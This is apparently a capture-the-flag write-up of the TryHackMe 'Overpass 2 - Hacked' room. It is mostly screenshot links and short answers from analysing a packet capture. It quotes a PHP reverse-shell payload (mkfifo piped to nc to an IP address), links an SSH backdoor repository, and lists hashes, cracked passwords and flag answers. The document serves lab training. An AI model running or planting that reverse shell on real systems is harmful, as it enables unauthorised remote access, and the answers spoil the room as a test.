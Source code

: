 Link room: https://tryhackme.com/room/overpass2hacked
# ENUMERATING
## using Wireshark

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/bfef944e-72d5-48e0-970a-183796bccc39)

=> /development/

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/89faa4f3-5353-4744-b912-a5857d53ea17)

Go to Follow -> HTTP Stream
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/7d47ce1c-cf65-4c23-9e87-e25964234706)

=> ```<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>```

View next stream

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/be9f9420-5d6e-4b09-978a-01c076a28aa3)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/f3da0b9c-9781-470f-8186-14e0c3fe5636)

=> whenevernoteartinstant

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/eeea5678-b7c1-402f-979b-df437e14e06f)

=> https://github.com/NinjaJc01/ssh-backdoor

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/61fed312-8872-4134-aee4-46e5334fc6fb)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c1cbb82d-c64e-4466-b2b3-71b91d8057a4)

=> 4
# EXPLOITING
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/d84b7bd2-b07e-4a30-ba21-928ae29a5c1d)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/3cbdc1c8-3f70-47a5-a0c8-80e858d1b616)

=> "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"

View main.go

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/bea7fc24-25ad-44ee-8d02-45205773e0fa)

=> "1c362db832f3f864c8c2fe05f2002a05"

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/a22d58fa-6cd0-43d4-8a53-0160d9c0c1ca)

=> "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed"

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/0fe4d806-38f1-475e-8201-6f43292156b9)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/38ae61d9-604b-4b8d-be72-b4568e2f6730)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/7f83261f-6881-4a86-b16b-2fd4b69e7c63)

=> november16
# TASK 3
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/75a619e0-a76f-41ba-83fb-15b234cf0c78)

=> H4ck3d by CooctusClan

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c46a9228-aa46-4e63-985e-6217fb96d826)

=> user.txt

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/99329876-a978-47f0-acbd-10d0c6ad2e53)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/5b9dee58-e93c-4e05-9f46-3d74eacf2178)

=> root.txt
## Done!!!
Thanks for reading. Bye!
